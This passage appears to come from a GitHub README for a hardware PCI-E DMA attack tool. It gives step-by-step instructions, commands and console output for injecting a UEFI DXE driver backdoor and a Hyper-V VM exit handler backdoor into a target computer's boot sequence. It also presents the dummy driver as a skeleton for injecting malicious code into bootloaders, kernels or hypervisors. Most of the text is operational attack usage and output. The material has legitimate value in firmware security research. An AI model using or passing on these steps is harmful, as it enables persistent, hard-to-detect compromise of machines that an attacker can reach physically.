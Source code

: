 Python program `uefi_backdoor_simple.py` injects dummy UEFI DXE driver located in `payloads/DmaBackdoorSimple` folder into the target system boot sequence using pre-boot DMA attack described above. To use this program you have to perform the following steps:

1) Power off the target computer.

2) Connect SP605 board to the PCI-E (or Mini PCI-E, or M.2) port of the target computer.

3) Turn the borad on and ensure that Microblaze firmware was successfully initialized by pinging an IP address that was specified during the board configuration with `bootloader_ctl.py` program. 

4) Run the following command to start pre-boot DMA attack: 

```
$ ./uefi_backdoor_simple.py --driver payloads/DmaBackdoorSimple/DmaBackdoorSimple_X64.efi
```

5) Power on the target computer, in case of successful attack after the couple of seconds you will see red debug messages screen of injected UEFI DXE driver:

<img src="https://raw.githubusercontent.com/Cr4sh/s6_pcie_microblaze/master/docs/images/backdoor_simple.png" width="540">

An example of `uefi_backdoor_simple.py` console output after the successful attack:

```
$ ./uefi_backdoor_simple.py --driver payloads/DmaBackdoorSimple/DmaBackdoorSimple_X64.efi
[+] Using UEFI system table hook injection method
[+] Reading DXE phase payload from payloads/DmaBackdoorSimple/DmaBackdoorSimple_X64.efi
[!] Bad MRd TLP completion received
[!] Bad MRd TLP completion received
[!] Bad MRd TLP completion received
[+] PCI-E link with target is up
[+] TSEG is somewhere around 0xd7000000
[+] PE image is at 0xd6260000
[+] EFI_SYSTEM_TABLE is at 0xd61eaf18
[+] EFI_BOOT_SERVICES is at 0xd680aa00
[+] EFI_BOOT_SERVICES.LocateProtocol() address is 0xd67e2c18
Backdoor image size is 0x1240
Backdoor entry RVA is 0x31c
Planting DXE stage driver at 0x10000...
Hooking LocateProtocol(): 0xd67e2c18 -> 0x0001031c
0.780202 sec.
[+] DXE driver was planted, waiting for backdoor init...
[+] DXE driver was executed
[+] DONE
```

This dummy UEFI DXE driver along with `uefi_backdoor_simple.py` program can be used as skeleton project to implement various attacks like injecting of malicious code into the operating system bootloader, kernel or hypervisor.

There's also another Python program &minus; `uefi_backdoor_hv.py`, it injects Hyper-V VM exit handler backdoor located in `payloads/DmaBackdoorHv` folder into the target system boot sequence exactly in the same way as previous dummy UEFI DXE driver. Here's an example of its usage:

```
$ ./uefi_backdoor_hv.py --driver payloads/DmaBackdoorHv/DmaBackdoorHv_X64.efi
[+] Using UEFI system table hook injection method
[+] Reading DXE phase payload from payloads/DmaBackdoorHv/DmaBackdoorHv_X64.efi
[+] Waiting for PCI-E link...
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] Bad MRd TLP completion received
[+] PCI-E link with target is up
[+] Looking for DXE driver PE image...
[+] PE image is at 0x77160000
[+] EFI_SYSTEM_TABLE is at 0x7a03e018
[+] EFI_BOOT_SERVICES is at 0x7a38fa30
```